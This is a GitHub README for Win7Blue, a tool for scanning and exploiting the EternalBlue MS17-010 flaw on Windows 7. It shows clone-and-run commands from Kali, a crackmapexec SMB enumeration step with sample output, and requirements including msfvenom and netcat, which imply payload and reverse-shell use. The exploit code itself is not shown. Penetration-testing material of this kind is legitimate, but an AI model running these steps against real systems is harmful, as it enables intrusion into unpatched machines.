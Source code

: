 # Win7Blue

Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 Bits

- <kbd>Scan</kbd>

![](/screenshots/1.png)

- <kbd>Exploit</kbd>

![](/screenshots/2.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# cd ~
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git
root@kali:~# cd Win7Blue
root@kali:~# chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum 32/64 bits</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  
- <kbd>Requirements:</kbd>

   * Python
   * Python3
   * Msfvenom
   * Impacket
   * Netcat/Ncat

---
